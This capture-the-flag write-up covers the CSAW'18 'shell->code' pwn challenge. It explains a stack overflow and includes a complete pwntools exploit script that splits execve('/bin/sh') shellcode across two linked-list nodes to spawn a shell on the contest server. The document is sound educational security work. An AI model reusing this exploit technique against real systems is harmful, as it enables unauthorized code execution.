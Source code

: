 ```yaml
---
layout: post
title: "CSAW’18 CTF Qualification Round: shell->code"
author: yrlf
categories: writeup
tags: [cat/pwn, tool/radare2, tool/pwntools]
---
```


* **Category:** pwn
* **Points:** 100
* **Description:**

> Linked lists are great! They let you chain pieces of data together.
> 
> ```sh
> nc pwn.chal.csaw.io 9005
> ```
>
> [shellpointcode](https://ctf.csaw.io/files/32cc91e380dac838a4f2978dfd963fb3/shellpointcode)

## Writeup

For this challenge, we got an x86\_64 linux binary (not stripped, NX is
disabled) that asks us for 15 bytes of input for each of two nodes of a linked
list.

The linked list struct looks like this:

```c
struct linked_list {
    struct linked_list * next;
    char data[15];
};
```

Both node instances lie on the stack, and the "next" pointer of the first points
to the second.

Afterwards, it prints out the first node, revealing the stack address of the
second node.

Then, the "goodbye" function asks for our initials and reads data in a far too
small stack buffer (buffer overflow).

## The Attack

We can redirect program execution to the heap buffer in the second node by
overwriting the return pointer in the "goodbye" function.

We cannot directly insert off-the-shelf shellcode into the buffers because they
are too small, so we chopped pwntools' `shellcraft.sh()` shellcode in half and
added a relative jump to redirect into the other node.

This gets us a shell allowing us to see the flag:

```
flag{NONONODE_YOU_WRECKED_BRO}
```

## The Script

This is the cleaned up script used to extract the flag:

```py
from pwn import *

context.arch = "amd64"

r = remote("pwn.chal.csaw.io", 9005)

node2 = asm("""
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
""") + b"\xeb\x11"

node1 = asm("""
    /* call execve('rsp', 0, 0) */
    push (SYS_execve) /* 0x3b */
    pop rax
    mov rdi, rsp
    xor esi, esi /* 0 */
    cdq /* rdx=0 */
    syscall
""")

r.readuntil(b"1: ")
print(">> node1")
r.sendline(node1)
r.readuntil(b"2: ")
print(">> node2")
r.sendline(node2)
r.readline()

r.readline()
r.readuntil(b": ")
addr = int(r.readline()[:-1], 16)
r.readline()
print(">> addr", hex(addr))

r.readline()
r.readline()
print(">> rop")
r.sendline(b"A"*11 + p64(addr+8))
r.readline()

r.sendline(b"cat flag.txt")
print(r.readline().decode())
```

